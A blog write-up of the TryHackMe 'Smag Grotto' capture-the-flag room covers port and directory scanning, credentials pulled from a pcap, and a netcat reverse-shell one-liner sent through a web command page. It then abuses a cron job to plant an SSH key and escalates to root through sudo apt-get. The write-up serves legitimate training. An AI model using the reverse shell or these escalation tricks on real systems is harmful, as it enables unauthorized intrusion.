 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/D9PypUN.png" alt="blog_image" />
</div>

Let's see if there is something on the website

<div className="Image__Medium">
  <img src="https://i.imgur.com/aXIQi2Y.png" alt="blog_image" />
</div>

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt                                               2:10:03 # Select your own wordlist                                              2:06:46
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/V1XUxTY.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/UZZG0pk.png" alt="blog_image" />
</div>

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

<div className="Image__Medium">
  <img src="https://i.imgur.com/FZ4Kz25.png" alt="blog_image" />
</div>

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

<div className="Image__Medium">
  <img src="https://i.imgur.com/yKY9pMB.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/RR1fGLX.png" alt="blog_image" />
</div>

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q5KPLgs.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/FLbTQw7.png" alt="blog_image" />
</div>

Well let's use the credentials that the TCP Stream gives us

```bash
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/L0iBMqp.png" alt="blog_image" />
</div>

Nice, we can execute remote command let's try a reverse shell 🤩

<div className="Image__Small">
  <img src="https://i.imgur.com/UJiq34Y.png" alt="blog_image" />
</div>

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/4pVmO2j.png" alt="blog_image" />
</div>

Nice we have a reverse shell, let's see if we can have the first flag 🏅

<div className="Image__Medium">
  <img src="https://i.imgur.com/i1MkJLx.png" alt="blog_image" />
</div>

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

<div className="Image__Medium">
  <img src="https://i.imgur.com/G9PaoMF.png" alt="blog_image" />
</div>

Ah, I found something very interesting with the cronjob

<div className="Image__Medium">
  <img src="https://i.imgur.com/MkUFU4L.png" alt="blog_image" />
</div>

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o                                                                                               2:25:52
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/kXjks3E.png" alt="blog_image" />
</div>

Nice we have our own SSH public key let's change the backup file on the server 👍

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q7IGUeR.png" alt="blog_image" />
</div>

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6                                                            2:28:49
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/hEeAJH6.png" alt="blog_image" />
</div>

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGo[nope 👁👄👁]uqU3j
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/5xn3kch.png" alt="blog_image" />
</div>

### **#2 What is the root flag?**

Now let's get a root access 😍

<div className="Image__Medium">
  <img src="https://i.imgur.com/TcRPpC7.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/9sh8unG.png" alt="blog_image" />
</div>

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

<div className="Image__Medium">
  <img src="https://i.imgur.com/iDrkgGN.png" alt="blog_image" />
</div>

```bash
uJr6zRgetan[nope 👁👄👁]bBKz2T
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
